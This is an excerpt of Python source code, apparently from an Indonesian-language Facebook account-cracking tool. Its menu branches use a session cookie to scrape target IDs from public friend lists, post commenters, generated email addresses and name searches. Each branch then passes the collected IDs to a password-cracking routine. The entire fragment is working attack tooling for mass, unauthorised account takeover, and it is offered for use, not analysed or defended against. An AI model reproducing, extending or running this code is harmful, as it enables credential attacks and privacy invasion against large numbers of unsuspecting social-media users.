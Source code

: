 		if menu in["1","01"]:

			prints(Panel(f"""{P2}masukan id target, pastikan id target bersifat publik dan tidak private""",subtitle=f"{P2}ketik {H2}me{P2} untuk dump dari teman sendiri",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan id atau username : ")

			if user in["Me","me"]:

				user = Dump(cookie).GetUser()

			Dump(cookie).Dump_Publik(f"https://mbasic.facebook.com/{user}?v=friends")

			Crack().atursandi()

			

		###----------[ KOMENTAR ]---------- ###

		elif menu in["3","03"]:

			prints(Panel(f"""{P2}masukan id postingan, pastikan postingan bersifat publik dan tidak private""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan id postingan : ")

			Dump(cookie).Dump_Komentar(f"https://mbasic.facebook.com/{user}")

			Crack().atursandi()

			

		###----------[ KOMENTAR ]---------- ###

		elif menu in["4","04"]:

			prints(Panel(f"""{P2}masukan nama dan format email gunakan '@' di awal contoh @gmail.com""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan nama : ")

			format = console.input(f" {H2}• {P2}masukan format : ")

			limit = console.input(f" {H2}• {P2}masukan limit : ")

			Dump(cookie).Dump_Email(user,format,limit)

			Crack().atursandi()

			

		###----------[ PENCARIAN NAMA ]---------- ###

		elif menu in["5","05"]:

			prints(Panel(f"""{P2}kamu bisa menggunakan koma (,) sebagai pemisah jika lebih dari 1 nama""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan nama : ")

			common = open("asset/nama_indonesia","r").read().splitlines()

			for idt in user.split(","):

				self.id.append(idt)
